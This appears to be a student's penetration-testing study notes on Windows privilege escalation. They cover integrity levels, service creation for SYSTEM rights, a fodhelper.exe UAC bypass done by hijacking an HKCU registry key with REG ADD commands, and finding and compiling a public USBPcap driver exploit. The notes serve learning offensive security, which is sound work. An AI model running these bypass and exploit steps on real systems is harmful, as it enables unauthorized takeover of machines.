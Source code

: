 HKCR contains file name extension associations and COM class registration information such as ProgIDs, CLSIDs, and IIDs 
  
To view user's Integrity Level:  
```powershell
C:\Users\admin>whoami /groups  
  
GROUP INFORMATION  
-----------------  
  
Group Name                              Type             SID          Attributes  
======================================================== ============ ================    
...  
Mandatory Label\Medium Mandatory Level  Label            S-1-16-8192
```
	As shown, we're logged in as ‘admin’ and currently have a Medium Integrity Level (Line 14)  
  
  
If we were to try to change the admin's password, it wouldn't work:  
```powershell
C:\Users\admin> net user admin Ev!lpass  
System error 5 has occurred.  
  
Access is denied.
```


### sc:

Will get NT AUTHORITY/SYSTEM rights:
```powershell
sc create <service_name> binpath= "<full_path\binary>" type= own type= interact
sc start <service_name>
```


### runAs:

Switch to High Integrity Level:  
```powershell
C:\Users\admin>powershell.exe Start-Process cmd.exe -Verb runAs
```


Retrying:  
```powershell
C:\Windows\system32> whoami /groups  
  
GROUP INFORMATION  
-----------------  
  
Group Name                              Type             SID          Attributes  
======================================================== ============ ================    
...  
Mandatory Label\High Mandatory Level    Label            S-1-16-12288  
  
C:\Windows\system32> net user admin Ev!lpass  
The command completed successfully.
```



### Another way to bypass is [fodhelper.exe](fodhelper.exe.md)  
  
\*\*\*NOTE: had to be admin; student didn't have perms for **fodhelper.exe** nor **procmon.exe**  
  
Use [sigcheck.exe](sigcheck.exe.md) to inspect the app's _application manifest_ to determine integrity level & pers required to run it:  
```powershell
C:\> cd C:\Tools\privilege_escalation\SysinternalsSuite  
  
C:\Tools\privilege_escalation\SysinternalsSuite> sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe  
  
c:\windows\system32\fodhelper.exe:  
Verified:       Signed  
Signing date:   4:40 AM 9/29/2017  
...  
<requestedPrivileges>  
<requestedExecutionLevel  
level="requireAdministrator"  
...  
<autoElevate>true</autoElevate>  
</asmv3:windowsSettings>  
 </asmv3:application>  
</assembly>
```
.
	**-a** - Extended info  
	**-m** - Dump Manifest  
	(Line 11) - Meant to be run by admin users (req full admin access token)  
	(Line 13) - Allows executable to auto-elevate to _High Integrity_ w/o prompting from admin user for consent  
  
  
Gather more info about fodhelper as it executes:  
1. Start procmon.exe  
2. Run fodhelper.exe  
3. Set filters to:
	1. Process Name - Is - fodhelper.exe - then - Include
	2. Operation - Contains - Reg - then - Include
	3. Result - Is - NAME NOT FOUND - then - Include
	4. Path - Contains - HKCU - then - Include
	5. Path - Contains - ms-settings\\shell\\open\\command - then - Include
  
2 - We're looking for reg entries that don't exist that fodhelper is attempting to access  
	- May be able to tamper w/ the entries & interfere w/ acitons the _High-Integrity_ process is attempting to perform.  
	  
  
3 - Search for the Reg Hive we can control w/ read/ write access - HKCU (hkey_current_user)  

4- One particular result: HKCU:\\Software\\Classes\\ms-settings\\shell\\open\\command  
  
To figure why it's trying to access that key, change filter 4^:  
  
5- Results show that after attempting to mod that key, not finding it, it then successfully finds it in the HKEY_CLASSES_ROOT (HKCR) hive  
  
Steps:  
1. Add key in HKCU hive (where it looks for it first)  
2. Add empty value for _DelegateExecute_ to force execution from COM object to program  
3. Add our binary under _Default_ value  
  
1. Add the missing key w/ reg in order to abuse it:  
```powershell
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
```
![[reg_key.png]]

To ensure we don't hijack execution through the COM object, we'll add an empty entry for _DelegateExecute_.
	fodhelper discovers the empty value, follows the specs for _application protocols_ & will look for a program in the _Default_ key  
  
  
2. Add empty value to _DelegateExecute_:  
```powershell
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
```
.
	**/v** - Value name  
	**/t** - Type  
  
To verify, remove filter 3^ and change to:  
Result - Is - SUCCESS - then - Include  
  
  
3. Add our own executable (cmd.exe) to _Default_ key:  
```powershell
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```
.  
	**/d** - Specify new registry key value  
	**/f** - Add value silently  
  
Running fodhelper again will throw a High-Integrity cmd shell  


### Kernel Vulns

When attempting to exploit system-level software (such as drivers or the kernel itself),  
we must pay careful attention to several factors including the target's operating system, version, and architecture.  
Failure to accurately identify these factors can trigger a BSOD  
  
* 3rd party kernel drivers are easier to exploit than the OS's kernel itself. (Vigorous patch cycle)  
** Even drivers marked as Stopped can be interacted with as they're still loaded into kernel memory space.  
*** Driver directory is typically: _C\:\\Windows\\System32\\DRIVERS_  
  
  
Determine version & architecture:  
```powershell
C:\> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"  
OS Name:                   Microsoft Windows 7 Professional  
OS Version:                6.1.7601 Service Pack 1 Build 7601  
System Type:               X86-based PC
```


Determine drivers:  
```powershell
C:\Users\student\Desktop>driverquery /v  
  
Module Name  Display Name           Description            Driver Type   Start M  
ode State      Status     Accept Stop Accept Pause Paged Pool Code(bytes BSS(by  
Link Date              Path                                             Init(byt  
es  
============ ====================== ====================== ============= =======  
...  
  USBPcap      USBPcap Capture Servic USBPcap Capture Servic Kernel        Manual  
    Stopped    OK         FALSE       FALSE        7,040      9,600      0  
10/2/2015 2:08:15 AM   C:\Windows\system32\DRIVERS\USBPcap.sys          2,176  
...
```
	Fairly certain 3rd party drivers don't have _Microsoft_ attached to their listing.  
  
  
Search for exploit:  
```bash
kali@kali:~# searchsploit USBPcap  
--------------------------------------- ----------------------------------------  
 Exploit Title                         |  Path  
                                       | (/usr/share/exploitdb/)  
--------------------------------------- ----------------------------------------  
USBPcap 1.1.0.0 (WireShark 2.2.5) - Lo | exploits/windows/local/41542.c  
--------------------------------------- ----------------------------------------

```

Verify installed version of driver to match 1.1.0.0:  
```powershell
C:\Users\n00b> cd "C:\Program Files"  
  
C:\Program Files> dir  
...  
08/13/2015  04:04 PM    <DIR>          MSBuild  
07/14/2009  06:52 AM    <DIR>          Reference Assemblies  
01/24/2018  02:30 AM    <DIR>          USBPcap
```


Inspect contents of _USBPcap\\USBPcap.inf_:  
```powershell
C:\Program Files\USBPcap> type USBPcap.inf  
[Version]  
Signature           = "$WINDOWS NT$"  
Class               = USB  
ClassGuid           = {36FC9E60-C465-11CF-8056-444553540000}  
...  
DriverVer=10/02/2015,1.1.0.0  
```


Compile C coded exploit:  
	**Ideally, we would compile the code on the platform version it is intended to run on.  
	In those cases, we would simply create a virtual machine that matches our target and compile the code there.  
  
We can attempt to get [mingw-w64.bat](mingw-w64.md) on the Win vic, run it (giving us gcc & adding it as a PATH var), and compile our exploit's code there:  
```powershell
gcc 41542.c -o exploit.exe
```
** May produce [error messages](https://gcc.gnu.org/onlinedocs/gcc/Warnings-and-Errors.html). Review carefully as it might have still worked.